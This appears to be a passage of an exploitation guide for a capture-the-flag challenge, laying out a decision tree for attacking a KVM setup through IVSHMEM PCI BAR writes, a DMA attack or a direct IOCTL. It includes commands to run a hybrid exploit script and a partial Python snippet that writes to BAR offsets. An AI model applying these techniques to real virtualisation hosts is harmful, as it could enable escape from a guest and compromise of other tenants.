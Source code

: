 ## Quick Decision Tree

```
Is target address within a discovered BAR?
├─ YES → Use direct BAR access (Method 1)
└─ NO → Is there a large prefetchable BAR?
    ├─ YES → Try DMA attack (Method 2)
    └─ NO → Use direct IOCTL (Method 3)
```

## Your Next Steps

1. **Run the hybrid exploit** - It combines your IVSHMEM approach with direct access
   ```bash
   sudo python3 hybrid_kvm_exploit.py
   ```

2. **Check which method works** - The output will show which technique succeeded:
   - `WRITE_BAR` → IVSHMEM BAR access worked
   - `IVSHMEM_DMA` → DMA attack succeeded
   - `WRITE_GPA` → Direct IOCTL was needed

3. **Understand the winning method** - This tells you how the CTF is configured:
   - If BAR methods work → IVSHMEM is exposed and exploitable
   - If only IOCTL works → Challenge expects direct driver usage
   - If DMA works → Real-world IVSHMEM DMA vulnerability

4. **Debug if needed**:
   ```bash
   # See what PCI devices exist
   lspci -v
   
   # Check specific BARs
   cat /sys/bus/pci/devices/0000:00:12.0/resource
   
   # Watch kernel messages
   dmesg -w
   ```

## Example: Mapping Your Original Code to IVSHMEM

### Your Original Approach:
```python
# bar-exploit.py
def get_first_bar(bdf: str):
    res_file = Path(f"/sys/bus/pci/devices/{bdf}/resource")
    # ... parse BAR ...
    return start, length, is_io

# This WAS correct for IVSHMEM!
base, length, is_io = get_first_bar("0000:00:12.0")
pfx = "writepio" if is_io else "writemmio"
write_val(pfx, base + 0x3c, 0xFF, 1)  # Access BAR offset
```
